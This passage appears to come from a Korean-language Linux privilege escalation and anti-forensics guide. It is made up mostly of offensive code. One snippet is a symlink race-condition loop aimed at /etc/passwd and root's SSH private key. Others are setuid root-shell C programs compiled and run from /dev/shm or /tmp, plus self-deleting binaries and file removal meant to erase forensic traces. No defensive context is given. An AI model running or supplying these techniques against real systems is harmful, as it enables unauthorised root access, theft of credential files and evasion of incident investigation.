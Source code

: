 ### 타이머 레이스 컨디션 공격

```bash
# 파일 접근 레이스 컨디션
while true; do
    ln -sf /etc/passwd /tmp/file
    ln -sf /root/.ssh/id_rsa /tmp/file
done
```

## 8. 탐지 우회 및 안티 포렌식 기법

### 메모리 전용 실행

```bash
# 디스크에 파일 쓰지 않고 메모리에서 실행
cat > /dev/shm/rootshell.c << EOF
#include <unistd.h>
int main() {
    setuid(0);
    execl("/bin/sh", "sh", "-p", NULL);
    return 0;
}
EOF
gcc /dev/shm/rootshell.c -o /dev/shm/rootshell
chmod +x /dev/shm/rootshell
/dev/shm/rootshell

# 실행 후 흔적 제거
rm -f /dev/shm/rootshell*
```

### 단기 실행 후 삭제

```bash
# 자기 삭제 코드
cat > /tmp/rootshell.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char cmd[100];
    setuid(0);
    setgid(0);
    system("/bin/sh -p");
    sprintf(cmd, "rm -f %s", argv[0]);
    system(cmd);
    return 0;
}
EOF
gcc /tmp/rootshell.c -o /tmp/rootshell
chmod +x /tmp/rootshell
/tmp/rootshell
```
